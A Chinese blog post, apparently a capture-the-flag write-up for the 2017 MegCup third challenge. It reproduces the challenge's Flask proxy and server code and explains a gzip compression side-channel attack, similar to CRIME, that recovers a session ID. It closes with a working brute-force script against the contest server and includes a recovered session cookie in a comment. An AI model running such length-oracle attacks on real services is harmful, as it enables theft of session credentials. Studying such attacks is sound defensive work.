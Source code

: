 ```yaml
---
layout: post
title:  "MegCup 极客挑战赛第三题"
date:   2017-03-27 11:57:00 +0800
---
```


之前看到这个比赛，然后初赛是一个极坐标到笛卡尔座标系的转换，我一时兴起，就做了，[那个比较简单](https://gist.github.com/winguse/a517546e2f54b2dc4fdcf99c4af6e75d)。

周日无事，就去复赛看看，扫了一眼题目，图论数论动态规划概率论计算几何我不会（即使曾经会现在也生死了）也不想折腾就看了看，不过第三题有点意思，就去研究了一下。[题目在这](https://2017.megcup.com/problems/3)，为了防止这个站挂了，重复一份在这：

简单说，就是一个目标服务（你要访问其中一个签名的 API），需要用 cookie 认证，但是你现在没有 cookie；一个代理服务，通过它访问，你可以免 cookie，但是你不能到达你用的那个 URL。它开源了两个服务的代码，Py...Python，好想吐槽游标卡尺语言啊（应该是吐槽我自己），一直没静下心学的语言，一直只能看看的语言，[最近还现炒现卖做了一个Thumbor的PR](https://github.com/thumbor/thumbor/pull/899)。

两个代码这里也贴一下：

proxy.py

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
 
from mysecret import get_signed_session_id_raw
from flask import Flask, request, make_response
import requests
 
import base64
 
app = Flask(__name__)
 
UPSTREAM_URL = 'http://localhost:38701'
 
@app.route("/")
def hello():
    return "online proxy usage: /&lt;username&gt;/&lt;page&gt;"
 
@app.route("/<username>/<page>", methods=['GET', 'POST'])
def proxy(username, page):
    try:
        page = page.strip()
        assert set(page).issubset(set(
            chr(i) for i in range(ord('a'), ord('z') + 1)))
        if page == 'signtoken':
            return make_response('permission denied', 403)
 
        sid = get_signed_session_id_raw(username)
        sid = base64.urlsafe_b64encode(sid).decode('utf-8')
        up_resp = requests.get(UPSTREAM_URL + '/' + page, params=request.args,
                               cookies={'sessionid': sid})
 
        # some debug pages may expose session id; strip them
        resp = up_resp.text.replace(sid, '<del>sessionid</del>')
 
        if request.form.get('debug'):
            resp += '<br /><hr>proxy debug<br />'
            resp += 'server response headers: <pre>{}</pre>'.format(
                up_resp.headers)
 
        return resp
    except:
        return 'error'
 
 
if __name__ == "__main__":
    app.run(debug=True, port=38700)
```

server.py

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
 
from mysecret import check_session_id, signtoken as do_signtoken
from simpleeval import simple_eval
 
from flask import Flask, request, make_response
import functools
 
app = Flask(__name__)
 
def require_login(func):
    @functools.wraps(func)
    def work():
        try:
            sid = request.cookies.get('sessionid')
            if not sid or not check_session_id(sid):
                return make_response('please login first', 401)
            return func()
        except:
            return 'error'
    return work
 
@app.route("/")
def hello():
    return "Hello World!"
 
@app.route("/echo")
@require_login
def echo():
    return make_response("""
        <h1>echo page</h1>
        <h2>request headers</h2><pre>{}</pre><h2>args</h2><pre>{}</pre>
    """.format(request.headers,
               '\n'.join('{}: {}'.format(k, v)
                         for k, v in request.args.items())))
 
@app.route("/eval")
@require_login
def eval_():
    expr = request.args['expr']
    result = simple_eval(expr)
    return make_response("""
        <h1>eval page</h1>
        <pre>{} = {}</pre>
    """.format(expr, result))
 
@app.route("/signtoken")
@require_login
def signtoken():
    token = request.args['token']
    signature = do_signtoken(token)
    return "token: {}<br />signature: {}".format(token, signature)
 
if __name__ == "__main__":
    app.run(debug=True, port=38701)
```

这个题目，乍看一眼的时候，我看到了那个 eval 的东西，然而，这个是个坑，开始我觉得这个简单吧，可以随便执行一段 Python 代码，然后很开心就去发了个 HTTP 请求，然而，去翻了一下那个 [Simple Eval 的包](https://github.com/danthedeckie/simpleeval)，才发现，这个功能十分有限，只能执行一些指定的表达式，显然这是一个吸引火力的地方，特别是我这种对它以及 Python 基本已无所知的人（此处应该有掀桌）。

然后继续看看那个 echo 的 API 呗，通过代理，它会 echo 回 HTTP Headers ，然而，鸡贼的出题人，将我们想要的 sid 个替换掉了。不过后面有一个 debug 的，会打印上游返回的 header ，咦，这是一个突破。当然，这个有点贼的地方是说，这个地方的参数是用 form 传的，不过这个不难，构造一下就好。然后就有了返回的 Header ，不过看不出什么有用的东西。

当然，这其实是有用的！中午我自己想去破解的时候，就注意到返回的 Content-Length 是 240 字节，Content-Encoding 是 gzip 。然后，在没有 debug 参数的时候，我从 Chrome 看到的是 223 字节。换句话说，因为出题人鸡贼地替换掉 sid 后，数据 gzip 后少了 17 字节。大概可以猜到 sid 这个串的长度了。然后，我就想到一个办法了：暴力枚举那个字符串。然而——我随便想了一下，暴力枚举 17 个字节啊，这不行啊，然后我觉得，是不是 gzip 可以有一些修复算法，毕竟我可以构造任意数据让服务器返回，然后看看返回的表现自己枚举的对不对——然而，我没想到一个可以让我一个个字节枚举的办法，一想到 17 字节的解空间，我就放弃了这个想法了。

![思路](/images/2017-03-27-guess-size.jpg)

之后又试了点别的，比如能不能绕过 proxy.py 里面的 URL 校验啊之类的，不过最后证明，%20 之类的伪造 URL 是没用的，然后我就开始去翻 python 的这个 HTTP 框架是不是有什么溢出漏洞之类的，没找到，想了想，不辜负好天气，就去，玩，了……

晚上 11 点快睡觉的时候，又想起来这么一茬事，好像说晚上 10 点结束吧，于是我就[去翻榜](https://2017.megcup.com/ranklist)了，照旧，其他不看，点开看了[过的一个大神第三题怎么做的](https://2017.megcup.com/get_upload/bef8bce5c3e307a8cd4f3e4b9467eff3)，我擦，我先看到的那份 import 了 zlib ，不是真的吧，跟我想的一样暴力去枚举啊，我脑子一片慌张。不过仔细看，好像不是，那些代码都注释掉了。继续往下看，我开始恍然大悟了（想想也是，好像其他地方也没再泄漏什么信息了），解法是：

>构造了一段跟 echo 返回的数据相同的字符串，然后看服务器返回的长度，选择枚举的最后一个字符。

原因是，数据压缩算法本质上是对相同的 pattern 的数据做归类，举个例子，假设传输 100 个“啊”字，那么压缩后，就是“100个啊字”，嘿嘿，是不是很像废话？所以，构造了两个一致的片段，那么他们会被合并，这个题目就是：

>HEADER_IN_TEXT + SESSION_ID

所以，可以构造：

>HEADER_IN_TEXT + TRYING_CHARS

如果 TRYING_CHARS 的前缀和 SESSION_ID 是一样的话，那么整个数据的公共部分就会被合并，然后这样子的返回的长度会最小（可以压缩到一起了嘛）。所以，就有了这么贼的做法了，嗯，然后我自己重新写了下面的代码再睡觉：

```python
import urllib
import urllib2
import re
import requests
 
# finally result
# r = requests.get('http://47.93.114.77:38701/signtoken', params={'token': '2d0a74300115d66e7a5d21e59bc20b53'}, headers={'Cookie': 'sessionid=ww6mveDaJESyPqfvcFKq1A=='})
# print r.content
 
 
zipBase=urllib.quote('''Accept: */*\r\nConnection: close\r\nUser-Agent: python-requests/2.13.0\r\nAccept-Encoding: gzip, deflate\r\nHost: localhost:38701\r\nCookie: sessionid=''')
 
chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/='
 
def getdebug(url):
    test_data={'debug':'a'}
    test_data_urlencode = urllib.urlencode(test_data)
    req = urllib2.Request(url=url, data=test_data_urlencode)
    res_data = urllib2.urlopen(req)
    res = res_data.read()
    res = re.search(r"(?<='Content-Length': ').*(?=', 'Connection')", res)
    return int(res.group())
 
 
now=''
for i in range(30):
    min_size = 999999999999
    selected = '0'
    for j in chars:
        res = getdebug('http://47.93.114.77:38700/root/echo?a=' + zipBase + now + j)
        if (res < min_size):
            min_size = res
            selected = j
        # print 'trying', j, res
    now += selected
    print now
```

看到了什么 gzip 的结束标识啊（例如等号），长度啊之类的，就可以大概猜到什么时候是循环结束的位置了，当然也可以通过判断 content-length 来做。

然后，让我想起我进微软孙老板那个压缩字符串面试题了，我多少还是了解一些东西的，可惜，不够敏感。说信息安全嘛，这个也算是一个例子了，其实，很简单的东西，都是可以造成信息泄漏的。类似的，还有[心脏滴血的漏洞](http://heartbleed.com/)。[大神的代码也有一个引用，原来还有这么一茬事情](http://security.blogoverflow.com/2012/09/how-can-you-protect-yourself-from-crime-beasts-successor/)。。

就酱。
